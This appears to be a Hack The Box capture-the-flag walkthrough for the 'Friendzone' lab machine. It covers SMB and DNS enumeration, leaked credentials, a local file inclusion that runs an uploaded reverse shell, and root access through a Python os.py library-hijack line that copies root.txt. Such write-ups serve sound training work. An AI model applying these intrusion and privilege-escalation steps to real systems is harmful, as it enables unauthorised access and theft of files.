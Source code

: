 # Friendzone

__URL__: [machines-173](https://www.hackthebox.eu/home/machines/profile/173)

__Machine IP__: 10.10.10.123

__DATE__ : 12/07/2019

__START TIME__: 10:00 PM


***

## `NMAP`

![](images/nmap-1.png)

![](images/nmap-2.png)

There are quite a few port open. Since the FTP doesn't allow anonymous login let's start with SMB

***

## SMB

I started `enum4linux` on the machine Ip to see if I can find anything interesting.

![](images/shares.png)

we can list `general` and `development`. Let's see what we can find in those two shares.

In `development` I found two files named `hello.php` and `revshell.php`. It kinda looks like someone else uploaded these 😜.

In the `general` I found a file name `creds.txt`

![](images/general.png)

![](images/creds-admin.png)

`admin:WORKWORKHhallelujah@#`

Let's move on with enumeration.

***

## HTTP

![](images/website.png)

It's a simple page and didn't had anything in the source of the page.

Running gobuster also didn't help me in finding anything good. I decided to move on with the my `enumeration`.

***

## DNS

There's a DNS server running so let's see what we can find from it.

![](images/simple.png)

So I decided to use the domain name that is `friendzone.red` and see if it find anything.

![](images/dig.png)

I found another domain name `administrator1.friendzone.red`. So if we visit that we are greeted with a plain and simple login page.

![](images/login.png)

We can use the `credentials` we found from SMB to login but I got a message saying to visit `/dashboard.php`

![](images/message.png)

If we visit that page we again get a simple page:

![](images/dashboard.png)

It says something about `image_name` param is missing. And then it's shows the `default` params. If we use those params we get a random `image`.

![](images/random.png)

This could mean that it's `including` the files from the server. It is possible that it's LFI, also because the first message said something about `dealing with beignner level php developer.`

Let's see if we can include any files.

***

## LFI

I tried including files like `/etc/passwd` but it didn't include that file.
Look's like the developer isn't really a `beginner`.

After sometime I found out that we had a read/write permission on the `development` SMB share and I think the website it trying to include files from that server. Because well it's named `development` and the `developer` is a noob so he didn't fixed the permission for that.

The only way to test our theory is to upload a reverse shell on that server and try to include it.

![](images/put.png)

To test if it worked or not I tried lot of path like `image_id=a.jpg&pagename=reverse-shell.php` or `image_id=reverse-shell&pagename=reverse-shell.php` but after some tries I finally got the reverse shell on `image_id=a.jpg&pagename=/etc/Development/reverse-shell`.

![](images/reverse.png)

***

## User

Once I was in I simply took the flag from the user directory.

![](images/user.png)

I decided to look around a bit in the `/var/www` directory since it usually holds configuration files of the website running which can have credentials(not always though).

I looked around a bit and found `mysql_data.conf` file that had username and password for user `friend`

![](images/credentials.png)

`friend:Agpyu12!0.213$`

We can try these credentials to login via `SSH`. I was in `friend` account and I think this is where I was supposed to find the `user` flag. 😜

Let's just move on with privilege escalation.

***

## Privilege escalation

Since I am in the system I dowloaded the `enumeration script` from system and ran it.

To download the enumeration script:

* Run python http server i.e `python -m http.server`(python3)
* From the machine run `wget http://IP:port/name-of-script`.

by the way remember to do it in `/tmp`.

I didn't found any interesting `SUID`

![](images/suid.png)

and there wasn't anything interesting.

Next I checked the `sudo` rights and nothing :(

![](images/sudo.png)

Next were the `process` running but nothing in the process.

So I started looking in the directories manually.

After around 15 minutes(or maybe more) I finally found something interesting to look.

![](images/python.png)

We notice few things:

* It's python 2 because print statement doesn't have `()` around it.
* The script does nothing because everything is commented except print statement and imports
* username: `you` and password: `PAPAP`

But using `SMTP` credentials won't bear us anything good(I think). And since the script isn't running anything I am not sure what to do. Plus we can't edit anything.

After looking around and googling a bit I found [privilege-escalation-via-python-library-hijacking](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/)

According to this I can just edit the imported library, in our case `os` and hope it works ;)

First I found the path for the python.

![](images/path.png)

and the best part was that it had `777` permission that mean we can edit it 😏

Now let' see the permission on the `os.py`

![](images/perm-os.png)

we can also edit this. It's going to be easy now. Let's just add a line to the end of the `os.py` and when the `/opt/server_admin/reporter.py` will run it's will import everything which will also execute our "line".

I added the following line:

```python
system(" cp /root/root.txt /tmp/.root.txt");
```
![](images/root.png)
